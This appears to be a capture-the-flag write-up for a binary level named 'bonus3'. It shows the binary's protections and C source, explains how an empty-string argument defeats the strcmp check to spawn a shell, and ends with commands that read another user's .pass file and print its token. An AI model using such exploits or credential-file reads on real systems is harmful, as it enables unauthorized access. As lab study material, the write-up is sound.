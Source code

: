 # bonus3

## Header

```bash
ssh bonus3@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/bonus3/bonus3
```

<hr>

## Solution

Look at these lines:
```c
  ...
  if (!strcmp(buf, av[1])) {
        execl("/bin/sh", "sh", NULL);
  ...
```

Here, we understand that `/bin/sh` will be executed only if `buf` will be equal to `av[1]`.
As for `buf`, it is filled with token of `end` user.
```c
    file = fopen("/home/user/end/.pass", "r");
    fread(buf, 1, 66, file);
    buf[65] = '\0';
    *(buf + atoi(av[1])) = '\0';
    fread(&buf[66], 1, 65, file);
```

So, here is two options:
1. Guess the token and pass as `av[1]`...
2. Pass empty string as a parameter, that will be parsed by `atoi` as 0 and terminated null will be placed at the beginning of the `buf` that made `buf` equal to empty string.

```bash
./bonus3 ""
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```
## References
